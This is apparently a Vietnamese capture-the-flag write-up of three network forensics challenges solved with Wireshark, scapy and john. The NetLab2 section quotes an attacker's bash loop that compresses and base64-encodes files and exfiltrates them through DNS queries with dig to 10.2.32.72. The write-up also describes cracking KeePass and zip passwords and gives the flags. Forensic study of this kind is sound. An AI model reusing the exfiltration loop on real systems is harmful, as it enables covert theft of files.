


# NetLab2.

- Hôm nay ta sẽ làm 1 vài chall khởi động cho `Wireshark`, bài này cho ta 1 file `.pcap` cùng vào `Wireshark` xem sao nhé.

- Vừa vào thì theo bản năng cứ `follow` `TCP` hoặc `HTTP` hoi , thì mình thấy cái code này khá là giống `bash`, mình hỏi gpt thì nó trả lời như thế này :
```
    **Dưới đây là giải thích từng dòng của đoạn mã sau:**

**1. `for f in $(ls .); do`**

- Khởi tạo vòng lặp lặp qua từng tệp (`f`) trong thư mục hiện tại (`.`).

**2. `s=4; b=50; c=0;`**

- Khởi tạo các biến:
    - `s`: Có thể là kích thước phân đoạn để chia dữ liệu (đặt thành 4).
    - `b`: Có thể là kích thước khối cho mã hóa Base64 (đặt thành 50 ký tự).
    - `c`: Một bộ đếm để theo dõi các phân đoạn (đặt thành 0).

**3. `for r in $(for i in $(gzip -c $f | base64 -w0 | sed "s/.\{$b\}/&\n/g"); do ...; done)`**

- Vòng lặp lồng nhau để xử lý từng tệp:
    - Nén tệp (`f`) bằng gzip.
    - Mã hóa dữ liệu đã nén bằng Base64.
    - Chia dữ liệu Base64 thành các dòng 50 ký tự bằng sed.
    - Lặp qua từng khối dữ liệu (`i`).

**4. `if [[ "$c" -lt "$s" ]]; then echo -ne "$i-."; c=$(($c+1)); else echo -ne "\n$i-."; c=1; fi`**

- Điều khiển định dạng phân đoạn:
    - Nếu bộ đếm (`c`) nhỏ hơn kích thước phân đoạn (`s`):
        - In khối (`i`) theo sau là "-." mà không có dấu xuống dòng.
        - Tăng bộ đếm (`c`) lên 1.
    - Ngược lại:
        - In một dấu xuống dòng, khối (`i`) theo sau là "-.".
        - Đặt lại bộ đếm (`c`) thành 1.

**5. `dig +tries=1 +timeout=1 +noidnin +noidnout @10.2.32.72 `echo -ne $r$(echo $f|base58)|tr "+" "}"|tr "/" "{"` +short`**

- Thực hiện truy vấn DNS cho mỗi khối (`r`):
    - Đặt các tùy chọn cụ thể cho dig:
        - Tối đa số lần thử lại: 1
        - Thời gian chờ: 1 giây
        - Ẩn thông tin bổ sung.
    - Truy vấn máy chủ DNS tại 10.2.32.72.
    - Tạo chuỗi truy vấn:
        - Ghép phần (`r`) vào tên tệp được mã hóa Base58 (`f`).
        - Thay thế "+" bằng "}" và "/" bằng "{" trong chuỗi truy vấn.
        - Yêu cầu chỉ câu trả lời ngắn từ truy vấn DNS.

**6. `done; done`**

- Đóng cả hai vòng lặp, kết thúc quá trình xử lý tệp và khối.
```
- Cũng có thể hiểu là đoạn code này nó sẽ mã hóa 1 đoạn dữ liệu nào đó , phần đầu sẽ là base64 còn phần sau sẽ là base58 (phần này mình xài bard nó nói thiếu) , và nó sẽ replace `+ -> } và / -> {` .

- Mình check 1 tí thì thấy `DNS` có 1 đoạn rất giống `base64` nên mình follow check thử.

- Ồ qao , 1 đống trang đều có mã base này , nhưng mà mình thấy là dữ liệu chỉ thay đổi ở phần đầu , còn phần sau thì ko thay đổi.

- Mình thử decode đoạn đằng sau `9CUmw2dKFRrmvfhiEM` bằng `base64` hay `base58` theo những gì đoạn `.bash` ở trên bảo.

- Tên của 1 cái file ? , mình check thêm xem có file nào nữa không thì vẫn còn tới 4 file nữa.
ở trang `191` thì mình kiếm đc file `discord.png`

- Tổng là mình kiếm đc các file sau : blueteam.bmp, discord.png, Flag.kdbx, gaixinh.jpg, kcsc.png , mình chỉ lấy 4 file còn lại trừ file discord.png ra nha.

- Còn phần đầu của các giữ liệu các bạn nhìn này.

- Nó thực sự rất giống như là đoạn dữ liệu của 1 file `png` , Ồ cuối cùng mình cũng hiểu đoạn `bash` nói gì rồi, đoạn phía sau của 1 đoạn dữ liệu là tên file để phân biệt các file còn lại và phần phía trước thực chất chính là dữ liệu cấu thành nên file đó , để lấy đc các file trên ta cần Truy vấn máy chủ `DNS` tại `ip = 10.2.32.72`. Nhưng cần có 1 lưu ý là đoạn bash `Thay thế "+" bằng "}" và "/" bằng "{"` thì ta phải làm ngược lại mới có đc dữ liệu gốc có nghĩa là khi decode lấy dữ liệu ta phải `{ thành / và chuyển } thành +`.
- Đây là code để lấy file , mình sẽ xóa ký tự '.' vì base ko có ký tự này và split('-') để tách dữ liệu ra thành từng phần , decode base58 đoạn cuối để so sánh:
```
import base64
from base58 import b58decode
from scapy.all import *


def process_packet(packet):
    result = ""
    gaixinh, flag, blueteam, kcsc = "", "", "", ""

    if packet.haslayer(DNS):
        dns_packet = packet.getlayer(DNS)
        if dns_packet.haslayer(DNSQR):
            query = dns_packet[DNSQR].qname.decode()
            if query is not None:
                tmp = query.replace(".", "")
                tmp = tmp.split("-")
                try:
                    form = b58decode(tmp[-1])
                    print(form)
                    if form == b"gaixinh.jpg\n":
                        tmp[-1] = ""
                        for i in tmp:
                            gaixinh += i

                    if form == b'Flag.kdbx\n':
                        tmp[-1] = ""
                        for i in tmp:
                            flag += i

                    if form == b'blueteam.bmp\n':
                        tmp[-1] = ""
                        for i in tmp:
                            blueteam += i

                    if form == b'kcsc.png\n':
                        tmp[-1] = ""
                        for i in tmp:
                            kcsc += i
                except:
                    pass
    return gaixinh, flag, blueteam, kcsc


packets = rdpcap('netlab2.pcap')

gaixinh, flag, blue, kcsc = "", "", "", ""
for packet in packets:
    a, b, c, d = process_packet(packet)
    gaixinh += a
    flag += b
    blue += c
    kcsc += d

gaixinh = gaixinh.replace("}","+").replace("{","/")
flag = flag.replace("}","+").replace("{","/")
blue = blue.replace("}","+").replace("{","/")
kcsc = kcsc.replace("}","+").replace("{","/")

gaixinh = base64.b64decode(gaixinh)
with open ("unzip/gaixinh.zip", "wb") as f:
    f.write(bytearray(gaixinh))

flag = base64.b64decode(flag)
with open ("unzip/flag.zip", "wb") as f:
    f.write(bytearray(flag))

blue = base64.b64decode(blue)
with open ("unzip/blue.zip", "wb") as f:
    f.write(bytearray(blue))

kcsc = base64.b64decode(kcsc)
with open ("unzip/kcsc.zip", "wb") as f:
    f.write(bytearray(kcsc))
```
- Mình nén các file trên thành dạng `zip trước`.
- Mình kẹp các file trên vào `folder unzip` để tiện giải nén , ko thể giải nén bằng cách bth nên mình buộc phải xài `Winrar`.
- các file còn lại toàn là ảnh trừ file `Flag.kdbx` , mình ko biết `.kdbx` là gì nên search thử google.

- Muốn mở file này thì cần tải `Keepass2` cái này mới nhất nên mình nghĩ xài sẽ oke hơn.

- Ô shit cần pass , mình xài `john` để crack pass nha.

- Nhập pass vào thì mình thấy cái này , mình thử click vào.


- Flag ở đây nè.
- *`FLAG: Flag{NetLab2_DNS_3xf1ltr4t10n_15_5t3al7hy} `*
# NetLab5.
- Bài này ko có trên `Viblo` nha :Đ , có gì mình để trên github z, Bài này vẫn cho mình 1 file `.pcap` mình xem thử như nào.

- Mình để ý thấy chỗ `TCP` màu đỏ này có `ip = 192.168.134.52` có chữ , nên mình xài `scapy` để lấy ra thử.
- Đây là code để mình lấy chữ ra, mình lấy là dạng `Raw` của `TCP` :
```
from scapy.all import *

def process_packet(packet):
    result = ""
    if packet.haslayer(TCP):
        tcp_packet = packet.getlayer(TCP)
        if tcp_packet.haslayer(Raw):
            data = packet.getlayer(TCP)[Raw].load
            try:
                data = data.decode()
                result += data
            except UnicodeDecodeError: #decode bị lỗi do ko phải là Raw thì pass qua cái TCP đó
                pass
    return result

packets = rdpcap('netlab5.pcap')

flag = ""
for packet in packets:
    flag += (process_packet(packet))
print(flag.replace("\n",""))
```
- Chạy source thì mình đc đoạn này.
```
I miss the days when life was so simple Felt like the glass was always half full Where did that go? And every second with you was so special Back when we didn't fear the unknowns But that was long ago Who can say where the path will go? Philosophers guess but they just don't know Maybe that's why We had our head in the clouds Thought we had it all figured out Planning to fly away To escape everything on the ground But like a plane up in space We successwrong But I know that we landed where we both belong (Where we both belong) I just wish we weren't scared to say That there's expiration dates on the friends you make As hard as that may sound Who can say where the path will go? Philosophers guess but they just don't know Maybe that's why We had our head in the clouds Thought we had it all figured out Planning to fly away To escape everything on the ground But like a plane up in space We slowly drifted away And every plan that we made And dream that we chased Are just memories now They're just memories now Who can say where the path will go? (Where the path will go? Where the path will go?) Philosophers guess but they just don't know (But they just don't know)|||||||||||||TCP SYN flood (a.k.a. SYN flood) is a type of Distributed Denial of Service (DDoS) attack that exploits part of the normal TCP three-way handshake to consume resources on YWxlcnQoJ0ZsYWd7TmV0TGFiNV9TWU5fRkwwb2RfYjRuTjNkfScp the targeted server and render it unresponsive.  Essentially, with SYN flood DDoS, the offender sends TCP connection requests faster than the targeted machine canConnection: closeStatus: online GMTration.GET / HTTP/1.1
```
- Nó có đoạn base bên trong nên mình decode thử.
- *`FLAG nè : Flag{NetLab5_SYN_FL0od_b4nN3d}`*
# GO DEEP.
- Bài này cho ta 1 file `.pcap` mình mở nên cứ theo bản năng mà follow `TCP` hoi ạ ( à mà file này có mỗi TCP ).

- Mình thấy 1 file ở đây, ko có thêm file nào nựa cả.

- Mình export object của HTTP thì nó là 1 file `download.php` gì đó nhưng header của nó là `PK` nên mình rename thành `.zip`.

- Bên trong nó có 1 file `.pcap` nữa nên mình lại theoo bản năng nữa thui :))) .

- Ở trang 26 mình thấy 1 mã base64 , mình decode thử thì đc 1 danh sách này.
```
FLOAT
FLOAT4
FLOAT8
FOR
FORCE
FOREIGNFROM
FULLTEXT
GRANT
GROUP
HAVING
HIGH_PRIORITYHOUR_MICROSECOND
HOUR_MINUTE
HOUR_SECOND
IF
IFNULL
IGNORE
ININDEX
INFILE
INNER
INOUT
INSENSITIVE
INSERT
INTINT1
INT2
INT3
INT4
INT8
INTEGER
INTERVALINTO
IS
ISNULL
ITERATE
JOIN
KEY
KEYS
KILLLEADING
LEAVE
LEFT
LIKE
LIMIT
LINESLOAD
LOCALTIME
LOCALTIMESTAMP
LOCK
LONG
LONGBLOBLONGTEXT
LOOP
LOW_PRIORITY
MATCH
MEDIUMBLOB
MEDIUMINT
MEDIUMTEXTMIDDLEINT
MINUTE_MICROSECOND
MINUTE_SECOND
MOD
MODIFIES
NATURAL
NOTNO_WRITE_TO_BINLOG
NULL
NUMERIC
ON
OPTIMIZE
OPTION
OPTIONALLYOR
ORDER
OUT
OUTER
OUTFILE
PRECISIONPRIMARY
PROCEDURE
PURGE
READ
READS
REALREFERENCES
REGEXP
RELEASE
RENAME
REPEAT
REPLACE
REQUIRERESTRICT
RETURN
REVOKE
RIGHT
RLIKE
SCHEMA
SCHEMASSECOND_MICROSECOND
SELECT
SENSITIVE
SEPARATOR
SET
SHOW
SMALLINTSONAME
SPATIAL
SPECIFIC
SQL
SQLEXCEPTION
SQLSTATESQLWARNING
SQL_BIG_RESULT
SQL_CALC_FOUND_ROWS
SQL_SMALL_RESULT
SSL
STARTINGSTRAIGHT_JOIN
TABLE
TERMINATED
THEN
TINYBLOB
TINYINT
TINYTEXTTO
TRAILING
TRIGGER
TRUE
UNDO
UNION
UNIQUEUNLOCK
UNSIGNED
UPDATE
USAGE
USE
USING
UTC_DATEUTC_TIME
UTC_TIMESTAMP
VALUES
VARBINARY
VARCHAR
VARCHARACTERVARYING
VERSION
WHEN
WHERE
WHILE
WITH
WRITEXOR
ZEROFILL
```
- Khá là giống 1 list mật khẩu z ó nên mình lưu vào a.txt nha.

- Mình thấy 1 file nữa nè , mình lại export object thui.

- Quá là nhiều file, mình chỉ ưu tiên file zip hoi.

- Mình đc 2 file sau , file `vLuOPQJs.zip` bằng mọi cách mình không thể nào unzip đc nên mình chuyển qua unzip file còn lại.

- Nó bảo cần pass , mình sẽ xài `john` với list là file a.txt trước nha sau đấy là xài các list khác sau.

- Pass là `VARCHARACTERVARYING` mình giải nén ra hoi.

- Mình mở file ra 1 file mình thử kiếm flag thì ra 11 cái , mình mò thì ra cái này :Đ.
-*`FLAG: flag{BHappy_F0ren3ics_0202}`*